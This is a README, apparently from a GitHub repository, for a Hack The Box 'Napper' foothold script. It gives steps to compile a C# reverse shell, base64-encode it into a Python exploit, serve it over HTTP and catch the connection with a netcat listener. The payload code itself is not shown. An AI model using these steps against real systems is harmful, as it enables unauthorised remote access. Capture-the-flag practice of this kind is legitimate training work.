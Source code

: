 # Hack The Box Napper - HTB Napper user foothold python script

### After trying several methods without success, I combined a couple of codes shared by the community to make them work successfully for me.. 
This is just to gain initial access to the machine. 

Edit the shell.cs file with your respective IP and Nishang script or any script you prefer, compile it as follows (in my case, using Arch Linux): 
> Make sure that the namespace in the code is the same as that of the .cs file. 
```bash
mcs -out:shell.exe shell.cs
```
Once compiled, use the following command to obtain the base64-encoded string:

```bash
cat shell.exe | base64 | xclip -sel clip
```

Paste this string into the Python script (napper.py). Once you have the Python script ready, start a local server with Python:

```bash
sudo python -m http.server 80
```

And listen for incoming connections:

```bash
nc -nlvp 4444
```
